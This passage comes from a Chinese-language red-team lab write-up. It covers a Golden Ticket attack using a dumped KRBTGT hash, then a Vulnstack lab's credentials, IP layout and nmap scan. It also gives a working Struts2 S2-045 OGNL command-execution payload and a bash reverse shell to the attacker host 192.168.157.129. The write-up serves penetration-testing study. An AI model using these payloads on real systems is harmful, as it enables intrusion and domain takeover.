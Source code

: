 `hashdump`获得KRBTGT账户NTLM密码哈希
![](https://img-blog.csdnimg.cn/2021052716143274.png)
`logonpasswords` 获取SID
![](https://img-blog.csdnimg.cn/20210527161750243.png)
WEB机 Administrator 右键->Access->Golden Ticket
![](https://img-blog.csdnimg.cn/20210527162541431.png)

![](https://img-blog.csdnimg.cn/20210527162514828.png)
那么就可以通过当前WEB机访问DC域了
![](https://img-blog.csdnimg.cn/20210527162818108.png)

参考文章：
[ATT&CK实战系列——红队实战（二）](https://blog.csdn.net/qq_36241198/article/details/115604073)

## ATT&CK实战系列——红队实战（四）
**机器密码：**
>ubuntu：ubuntu
douser：Dotest123
administrator：Test2008

**ip：**
>攻击机kali：192.168.157.129
>ubuntu 64位：192.168.157.128，192.168.183.132
>dc：192.168.183.130
>win7：192.168.183.133(因为不是一天打完的，重启靶机发现ip变为了：192.168.183.134)

![](https://img-blog.csdnimg.cn/4ee587055ba44840b030c2ab432e2bbe.png)
需要手动开启靶机
![](https://img-blog.csdnimg.cn/c27f7cb0f33d423ba87b4c3dae2289bd.png)
### 获取webshell
首先使用nmap扫描一下`nmap -A -sS -sV -v -p- 192.168.157.128`
![](https://img-blog.csdnimg.cn/e09ffa593219428ca5230e62f4268066.png)
发现依次是Struts2，Tomcat和phpMyAdmin
#### Struts2-045漏洞利用
使用Struts2-Scan发现失败了，换一个vulhub试试，[https://github.com/zhzyker/vulmap](https://github.com/zhzyker/vulmap)
![](https://img-blog.csdnimg.cn/66b0028a7a3b4f0ab25b5bb5f2190b14.png)
直接抓包修改Content-Type
```java
"%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"ls"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```
![](https://img-blog.csdnimg.cn/ac49505203484261b1a27faeb854c4f2.png)
发现为root权限，那么直接尝试反弹shell
```bash
bash -i >& /dev/tcp/192.168.157.129/6666 0>&1
```
![](https://img-blog.csdnimg.cn/a0d6a1700bb147b9b41d58176f515653.png)
成功获取shell，并且为root权限
#### Tomcat PUT方法任意写文件漏洞